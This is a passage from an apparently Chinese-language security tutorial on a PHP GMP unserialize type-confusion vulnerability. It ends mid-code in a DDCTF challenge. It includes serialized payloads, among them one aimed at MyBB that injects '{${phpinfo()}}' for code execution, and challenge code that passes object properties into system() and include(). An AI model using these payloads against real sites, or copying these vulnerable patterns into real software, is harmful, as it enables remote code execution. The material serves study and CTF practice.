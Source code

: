 返回的结果可以看出来，我们成功修改了第二个声明的对象。



但如果我们把ryat改为4，那么页面会直接返回500，因为我们修改了没有分配的对象空间。



在完成前面的试验后，我们可以把漏洞的利用条件简化一下。

如果我们有一个可控的**反序列化入口**，目标**后端PHP安装了GMP插件**（这个插件在原版php中不是默认安装的，但部分打包环境中会自带），如果我们找到一个**可控的`__wakeup`魔术方法**，我们就可以修改反序列化前声明的对象属性，并配合场景产生实际的安全问题。



如果目标的php版本在5.6 <= 5.6.11中，我们可以直接使用内置的魔术方法来触发这个漏洞。

```php
var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));
```



具体的mybb以及利用可以在参考连接中查看。



### mybb利用

```php
a:1:{i:0;C:3:"GMP":106:{s:1:"5";a:2:{s:5:"cache";a:1:{s:5:"index";s:14:"{${phpinfo()}}";}i:0;O:12:"DateInterval":1:{s:1:"y";R:2;}}}}
```



### ecsho4.0.7利用





### 例题：ddctf web4 Overwrite Me

```php

<?php
error_reporting(0);

class MyClass
{
    var $kw0ng;
    var $flag;

    public function __wakeup()
    {
        $this->kw0ng = 2;
    }

    public function get_flag()
    {
        return system('find /HackersForever ' . escapeshellcmd($this->flag));
    }
}

class HintClass
{
    protected  $hint;
    public function execute($value)
    {
        include($value);
    }

    public function __invoke()
```
